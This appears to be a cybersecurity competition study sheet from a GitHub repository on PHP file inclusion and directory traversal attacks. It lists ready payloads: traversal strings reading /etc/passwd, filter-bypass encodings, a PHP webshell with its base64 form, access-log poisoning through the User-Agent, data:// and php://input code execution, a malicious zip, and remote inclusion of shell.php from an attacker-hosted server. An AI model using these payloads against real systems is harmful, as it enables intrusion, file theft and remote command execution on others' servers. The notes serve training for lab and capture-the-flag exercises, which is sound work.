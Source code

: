 <[Back to Main Page](https://github.com/ChristopherFitzsimons/WorldSkills2022Cybersecurity)

# FILE INCLUSION / DIRECTORY TRAVERSAL

## Quick Examples
"index.php?language=../../../../../../../../../etc/passwd"  
"index.php?language=....//....//....//....//....//....//....//....//etc/passwd"  
....// = %2e%2e%2e%2e%2f%2f  

"index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt"  
"index.php?language=<?php system($_GET['cmd']); ?>"  
"index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt&cmd=whoami"  

Base encoded PHP webshell  
```bash
echo '<?php system($_GET['cmd']); ?>' | base64
"index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=id"
```

```bash
echo '<?php system($_GET['cmd']); ?>' > exec.php
zip malicious.zip exec.php
rm exec.php
```

```bash
python3 -m http.server 8080
```
"index.php?language=http://localhost:8080/shell.php"  
"index.php?page=php://filter/read=convert.base64-encode/resource=index"  
"index.php?language=http://10.10.14.23:8080/shell.php&cmd=cat /exercise/flag.txt"  

## Notes
### Local File Inclusion
What is Local File Inclusion:  
File inclusion vulnerabilities can often be found in GET request parameters. Server-side scripts include certain files based on the user's choice or input, for example, file downloads, choice of language, or website navigation.  

This attack can be done when there is an input on the URL where it will find a file and include it in the website. For example "index.php?language=es.php" You can then change this to be "index.php?language=/etc/passwd" which will include the passwd file instead of the php file.  

The verbose error returned shows us the string passed to the include() function, stating that there is no /etc/passwd in the languages folder. This restriction can be bypassed by traversing directories using a few ../ before the desired file name.
Example "index.php?language=../../../../../../../../../etc/passwd"  

Instead, prefixing a / before the payload will bypass the filename and traverse directories instead.
Example "index_2.php?language=/../../../../../etc/passwd"  

Scripts can employ search and replace techniques to avoid path traversals. For example:  
$language = str_replace('../', '', $_GET['language']);  
This will attempt to replace the traversal attack.  
You can try and get arorund this by adding an extra ....// and the script will remove ../ leaving ../  
Example "index.php?language=....//....//....//....//....//....//....//....//etc/passwd"  

On PHP versions 5.3.4 and earlier, string-based detection could be bypassed by URL encoding the payload. The characters ../ can be URL encoded into %2e%2e%2f, which will bypass the filter.  
In the last example ....// can be URL encoded into %2e%2e%2e%2e%2f%2f.  

### LFI to Remote Code Execution  
PHP provides various wrappers, which can be used for easier access to files, protocols, or streams. A list of wrappers can be found here. The php:// wrapper is enabled by default and interacts with IO streams. For example: php://stdin and php://stdout can be used to access input and output streams for the process, while php://input and php://output are used to access request data. One handy wrapper is php://filter, which can be chained with multiple filters to achieve the desired output.  

For example, the filter php://filter/read=/resource=/etc/passwd reads the resource /etc/passwd and outputs the contents. The read filter can process the input with various string operations, such as base64 encoding, ROT13 encoding, etc.  

The following filters will convert the contents of /etc/passwd to base64 and ROT13, respectively.  
Example "index.php?language=php://filter/read=convert.base64-encode/resource=config"  

PHP versions before 5.5 are vulnerable to null byte injection, meaning that adding a null byte at the end of the filename should bypass the extension check. For example: language=/etc/passwd%00 will result in the statement include("/etc/passwd%00.php"), where the server ignores everything after the null byte.  

With remote file inclusions you can use tools like burpsite to inject PHP code into log files or internal files. This allows us to run our system commands on the box.  
For example we run the request "index.php?language=/var/log/apache2/access.log" and we can change the User Agent to "<?php system($_GET['cmd']); ?>" which whill allow us to inject our system commands into the php page.  
The next request we send reading access.log we will pull the php and we add the cmd=... which will specify our command.  
Example "index.php?language=/var/log/apache2/access.log&cmd=cat%20/exercise/flag.txt"  

"index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt"  
"index.php?language=<?php system($_GET['cmd']); ?>"  
"index.php?language=/var/lib/php/sessions/sess_m5ndjtun75qonlshccvhhuq4rt&cmd=whoami"  

### Other PHP Wrappers
The expect wrapper in PHP helps in interaction with process streams. This extension is disabled by default but can prove very useful if enabled. For example, the following URL will return the output of the id command.  

The data wrapper can be used to include external data, even PHP code. It's possible to use this only if the allow_url_include setting is enabled in the PHP configuration.  
"index.php?page=php://filter/read=convert.base64-encode/resource=index"  

Base encoded PHP webshel
```bash
echo '<?php system($_GET['cmd']); ?>' | base64
http://blog.inlanefreight.com/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOyA/Pgo=&cmd=id
```

Similar to the data wrapper, the input wrapper can be used to include external input and execute code. It also needs the allow_url_include setting enabled.  
```bash
curl -s -X POST --data "<?php system('id'); ?>" "http://134.209.184.216:30084/index.php?language=php://input" | grep uid
```

The zip wrapper can prove useful in combination with file uploads.  
```bash
echo '<?php system($_GET['cmd']); ?>' > exec.php
zip malicious.zip exec.php
rm exec.php
```

### Remote File Inclusion
Remote File Inclusion or RFI occurs when wensites allow the inclusion of remotly hosted files. For example the files localy on the attackers device or C2 server.  

To include a remote file in PHP, the allow_url_fopen setting (enabled by default) and allow_url_include setting have to be turned on. Start a python HTTP server on port 8080 on localhost and then pass a URL to it through the language parameter.  
Example: "index.php?language=http://localhost:8080/file"  

Next, use the ftp:// scheme to access shell.php present in the FTP root.  
"index.php?language=ftp://user:pass@localhost/shell.php&cmd=id"  
When the application is running on Windows, the restrictions applied by allow_url_include can be bypassed by using the SMB protocol.  
